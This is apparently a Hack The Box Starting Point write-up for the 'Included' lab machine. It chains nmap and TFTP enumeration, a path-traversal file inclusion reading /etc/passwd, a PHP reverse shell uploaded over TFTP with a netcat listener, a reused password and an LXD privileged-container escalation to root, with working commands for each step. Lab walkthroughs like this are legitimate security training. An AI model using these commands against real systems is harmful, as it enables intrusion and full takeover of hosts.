


Hack The Box :: Starting Point :: Included :: Linux

# Enumeration

Let's begin by running an Nmap scan.
`nmap -A -v 10.10.10.55`

From the output we only see port 80 open. We can navigate to the website in a browser.

[web.webp](../_resources/2d2cee0ed096060618f6ba9dae8ef8ff.webp)

We can also run a UDP scan with Nmap.
`nmap -sU -v 10.10.10.55`

The UDP scan found port 69 to be open, which hosts the TFTP service. TFTP or "Trivial File Transfer Protocol", is similar to FTP but much simpler. It provides functionality only for uploading or downloading files from a server.

Let's see if we can connect to TFTP and upload a file.

	echo 1 > test.txt
	tftp 10.10.10.55
	put test.txt

We connect and confirm that we can upload files.

## LFI

The URL of the website is "[http://10.10.10.55/?file=index.php"](http://10.10.10.55/?file=index.php%22). It is worth checking if this is vulnerable to Local File Inclusion. We can test by changing the URL to the following:

`http://10.10.10.55/?file=../../../../etc/passwd`
This is successful, and passwd contents are returned by the server.
[passwd.webp](../_resources/57b952f3dabf837ef8107c6298ab1fd1.webp)

# Foothold

The LFI vulnerabilty can be combined with the TFTP service, in order to upload a PHP [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and execute it. This happens due to the inclusion of the PHP code by the vulnerable page, which results in it's execution. Change the IP address and the port by editing the following lines in the shell.

	$ip = '127.0.0.1';  // CHANGE THIS
	$port = 1234;       // CHANGE THIS

Then let's upload it using TFTP.

	tftp 10.10.10.55
	put rev.php

Next, we can use the LFI to access the reverse shell. The default TFTP root folder is `/var/lib/tftpboot`. Let's start a netcat listener before navigating to the shell.

`nc -lvp 1234`

Navigate to **http://10.10.10.55/?file=../../../../var/lib/tftpboot/rev.php** in order to get a shell.

# Lateral Movement

The low privilged `www-data` user isn't allowed to read user files.The password **Sheffield19** found in the previous can be used to switch to `mike`. First, let's spawn a TTY shell.

`python3 -c "import pty; pty.spawn('/bin/bash')"`
We can su to the user mike with the above password.
`su mike`

[mike.webp](../_resources/e9057d51b1cbaaf86ce9940bd87ae7d5.webp)

The user flag is located in `/home/mike`.

# Privilege Escalation

Running the **groups** command, it's found that user mike is in the LXD group. The LXD group is a high-privileged linux group, which can be used to escalate to root. First, clone the following repository and build an alpine image.

	git clone  https://github.com/saghul/lxd-alpine-builder.git
	cd lxd-alpine-builder
	./build-alpine

A tar.gz file should be created in the same folder. Upload it to the server by using python's `SimpleHttpServer`. First, run the following command locally in the same folder as the tar.gz.

`python -m SimpleHTTPServer 8888`
Then download the image to the server using `wget`:

	cd /tmp
	wget 10.10.14.3:8888/alpine-v3.10-x86_64-20191008_1227.tar.gz

We replace the tar name with the one that was built on our own system. Next, run the following commands to get root.

	lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias rootimage
	lxc init rootimage ignite -c security.privileged=true

The commands above will import the image and create a privileged container with it. Next, the host file system is mounted to the `/mnt/root` folder on the container.

`lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true`

The command above will let us have access to the entire filesystem from within the container. The next set of commands start the container and drop us into a shell on it.

	lxc start ignite
	lxc exec ignite /bin/sh

Finally, we can navigate to `/mnt/root/root/` and read root.txt along with `login.sql`, which reveals credentials.